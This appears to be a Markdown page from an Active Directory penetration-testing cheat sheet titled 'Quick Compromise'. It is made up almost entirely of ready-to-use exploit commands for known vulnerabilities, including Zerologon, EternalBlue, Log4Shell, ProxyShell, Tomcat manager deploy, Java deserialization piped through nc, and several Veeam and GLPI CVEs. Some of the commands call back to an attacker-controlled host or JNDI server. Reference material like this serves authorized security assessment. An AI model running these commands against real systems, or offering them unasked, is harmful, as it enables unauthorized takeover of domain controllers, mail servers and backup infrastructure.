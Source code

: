 ```yaml
---
title: "Quick Compromise"
description: "Quick Compromise techniques and commands for Active Directory security assessment."
---
```

# Quick Compromise
## ⚠️ Zerologon (unsafe) CVE-2020-1472 @CVE@ *Domain admin*{: .highlight}
- `zerologon-scan '<dc_netbios_name>' '<ip>'`
- `cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>`

## Eternal Blue MS17-010 @CVE@ *Admin || Low access*{: .highlight}
- `msf> exploit/windows/smb/ms17_010_eternalblue # SMBv1 only`

## Tomcat/Jboss Manager *Admin || Low access*{: .highlight}
- `msf> auxiliary/scanner/http/tomcat_enum`
- `msf> exploit/multi/http/tomcat_mgr_deploy`

## Java RMI *Admin || Low access*{: .highlight}
- `msf> use exploit/multi/misc/java_rmi_server`

## Java Serialiszed port *Admin || Low access*{: .highlight}
- `ysoserial.jar <gadget> '<cmd>' |nc <ip> <port>`

## Log4shell *Admin || Low access*{: .highlight}
- ${jndi:ldap://<ip>:<port>/o=reference}

## Database *Admin || Low access*{: .highlight}
- `msf> use auxiliary/admin/mssql/mssql_enum_sql_logins`

## Exchange *Admin*{: .highlight}
- Proxyshell @CVE@
  - `proxyshell_rce.py -u https://<exchange> -e administrator@<domain>`

## Veeam *User Account || Low access || Admin*{: .highlight}
- CVE-2023-27532 (creds - Veeam backup) @CVE@
  - `VeeamHax.exe --target <veeam_server>`
  - `CVE-2023-27532 net.tcp:/<target>:<port>/`
- CVE-2024-29849 (auth bypass - Veeam Backup Enterprise Manager) @CVE@
  - `CVE-2024-29849.py --target https://<veeam_ip>:<veeam_port>/ --callback-server <attacker_ip>:<port>`
- CVE-2024-29855 (auth bypass - Veeam Recovery Orchestrator) @CVE@
  - `CVE-2024-29855.py  --start_time <start_time_epoch> --end_time <end_time_epoch> --username <user>@<domain> --target https://<veeam_ip>:<veeam_port>/`
- CVE-2024-40711 (unserialize - Veeam backup) @CVE@
  - `CVE-2024-40711.exe -f binaryformatter -g Veeam -c http://<attacker_ip>:8000/trigger --targetveeam <veeam_ip>`

## GLPI *Admin || Low access*{: .highlight}
- CVE-2022-35914 @CVE@
  - /vendor/htmlawed/htmlawed/htmLawedTest.php
- CVE_2023_41320 @CVE@
  - `cve_2023_41320.py -u <user> -p <password> -t <ip>`

## Weak websites / services
- nuclei
  - `nuclei -target <ip_range>`
- nessus